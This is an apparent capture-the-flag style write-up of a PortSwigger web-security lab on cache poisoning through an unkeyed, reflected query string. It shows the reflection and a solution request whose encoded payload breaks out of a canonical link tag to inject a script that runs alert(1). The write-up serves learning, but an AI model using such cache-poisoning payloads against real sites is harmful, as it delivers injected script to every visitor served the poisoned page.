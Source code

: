 # [Lab: Web cache poisoning via an unkeyed query string](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-query)

## Lab

This lab is vulnerable to web cache poisoning because the query string is unkeyed. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the home page with a response that executes `alert(1)` in the victim's browser.

## Analysis

unkeyed-query and query is inflected:

```http
GET /?unkeyed HTTP/1.1
```

- response:

  ```html
  <link rel="canonical" href='//id.web-security-academy.net/?unkeyed'/>
  ```

## Solutions

```http
GET /?evil=%27/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
```

- response:

  ```html
  <link rel="canonical" href='//id.web-security-academy.net/?evil='/><script>alert(1)</script>'/>
  ```
